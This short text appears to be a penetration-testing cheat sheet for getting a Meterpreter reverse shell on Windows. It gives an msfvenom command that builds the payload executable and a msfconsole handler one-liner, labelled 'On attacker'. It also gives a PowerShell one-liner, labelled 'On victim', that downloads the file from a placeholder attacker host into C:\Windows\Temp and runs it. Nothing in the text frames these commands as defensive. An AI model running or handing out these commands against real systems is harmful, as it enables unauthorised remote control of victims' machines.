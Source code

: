 # On attacker

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f exe > <FILENAME>`

`msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <ATTACKER_IP>; set LPORT <ATTACKER_PORT>; exploit'`


# On victim

`powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<ATTACKER_IP>/<FILENAME>', 'C:\Windows\Temp\<FILENAME>'); Start-Process 'C:\Windows\Temp\<FILENAME>'"`
